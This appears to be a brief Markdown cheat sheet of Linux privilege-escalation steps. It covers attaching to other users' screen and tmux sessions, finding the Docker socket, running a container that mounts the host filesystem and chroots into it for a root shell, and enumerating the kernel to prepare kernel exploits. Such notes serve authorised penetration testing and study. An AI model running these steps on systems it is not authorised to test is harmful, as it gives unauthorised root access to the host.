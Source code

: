 # Running sessions
## Check for screen sessions
```
screen -ls
screen -dr <session> 
```

## Check for tmux sessions
```
tmux ls
tmux a -t <sessions>
```


# Docker
## Search socket for docker
```
find / -name docker.sock 2>/dev/nul
```

## List docker images 
```
docker images
```

## Run the image, mounting the host disk and chroot
```
docker run -it -v /:/host/ <dockerImage> chroot /host/ bash
```


# Kernel Exploits
## get kernel version
```
uname -a
cat /etc/issue
cat /etc/*-release
cat /proc/version
```

## List kernel modules
```
lsmod
/sbin/modinfo <module>
```
